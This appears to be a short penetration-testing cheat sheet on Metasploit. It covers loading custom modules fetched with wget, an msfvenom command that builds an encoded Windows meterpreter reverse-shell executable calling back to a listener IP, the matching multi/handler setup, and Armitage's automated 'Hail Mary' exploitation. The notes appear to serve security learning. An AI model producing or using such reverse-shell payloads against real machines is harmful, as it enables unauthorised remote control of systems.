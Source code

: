 ### Add modules to metasploit

Terminal:

```bash
mkdir /usr/share/metasploit-framework/modules/exploits/custom/
cd /usr/share/metasploit-framework/modules/exploits/custom/
wget https://gist.githubusercontent.com/todb-r7/5935519/raw/f18d6b0dcd94d135a567e5b50a9b1cab3a1c5e1b/test_module.rb  (module used for test => https://gist.github.com/todb-r7/5935519)

can add new modules in each directories (exploits/custom, aucilary/custom, etc.) (custom modules have to be in ruby, .rb)
```

Metasploit:

	reload_all (on metasploit console to load new exploit or restart metasploit)
	use exploit/custom/test_module

### External Tools

#### Msfvenom

Payload generation:

	msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=10.1.1.12 lport=4545 -e x86/shikata_ga_nai -b '\x00' -i 3 -f exe -o test.exe
	
	-a: x86/x64
	--platform: platform
	-p: payload
	-lhost: kali ip
	-lport: port
	-e: encoder
	-b: bad caracter to encode

##### Metasploit

	use exploit/multi/handler (listener)
	set payload windows/meterpreter/reverse_tcp
	set lhost 10.1.1.12
	set lport 4545 
	run

#### Armitage

GUI client for Metasploit, automated tools. (not complete like real metasploit)

Can be used for scaning (auxilary modules, nmap, etc...), detect OS and find vulnerabilities for this system, but is better to run the exploits from metasploit command lines.

	Attacks => Find attacks (find vulnerabilities for this system)
	Attacks => Hail Mary  (autopwn - run all compatible exploits - very agressive - should not be used)

# Post exploitation
